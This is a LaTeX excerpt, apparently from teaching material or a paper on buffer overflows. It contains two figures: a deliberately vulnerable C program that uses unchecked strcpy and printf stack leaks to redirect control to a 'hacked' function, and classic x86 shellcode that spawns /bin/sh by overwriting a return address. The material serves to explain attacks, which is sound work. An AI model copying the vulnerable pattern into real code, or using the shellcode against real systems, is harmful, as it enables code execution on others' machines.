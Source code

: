 \begin{figure}
\begin{lstlisting}
#include <string.h>
#include <stdio.h> 

void foo(const char* input)
{
    char buf[10];

    printf("My stack looks like:\n%p\n%p\n%p\n%p\n%p\n% p\n\n");

    strcpy(buf, input);
    printf("%s\n", buf);

    printf("Now the stack looks like:\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
}

void bar(void)
{
    printf("Augh! I've been hacked!\n");
}

int main(int argc, char* argv[])
{
    //Blatant cheating to make life easier on myself
    printf("Address of foo = %p\n", foo);
    printf("Address of bar = %p\n", bar);
    if (argc != 2) 
    {
        printf("Please supply a string as an argument!\n");
        return -1;
    } 
    foo(argv[1]);
    return 0;
}
\end{lstlisting}
\caption{An example of using buffer overflow to overwrite stack memory.}
\label{fig:strcpy}
\end{figure}

\begin{figure}
\begin{lstlisting}
char shellcode[] =
  "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
  "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
  "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";


void main() {
  int *ret;


  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
\end{lstlisting}
\caption{The contents of \texttt{shellcode} are executed when the return address of the main method is manipulated.}
\label{fig:shellcode}
\end{figure}

\vfill
\clearpage
